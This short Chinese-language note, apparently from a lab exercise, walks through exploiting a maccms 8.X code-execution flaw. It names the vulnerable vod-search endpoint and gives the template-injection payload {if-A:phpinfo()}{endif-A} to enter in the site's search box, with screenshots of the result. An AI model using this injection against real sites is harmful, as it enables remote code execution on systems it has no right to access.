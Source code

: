 # maccms 8.X 笔记

# 1、登录网站http://81.68.197.243:62202/

![image-20220301172018771](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011720025.png)

> 获得关键信息 网站为 maccms 8.X

## 2、百度查询该网站是否有漏洞

```
http://127.0.0.1/maccms888/?m=vod-search
```

查找到这个url存在代码执行

## 3、利用

搜索框输入：

```
{if-A:phpinfo()}{endif-A}
```

![image-20220301172335923](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011723163.png)

![image-20220301172411437](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011724521.png)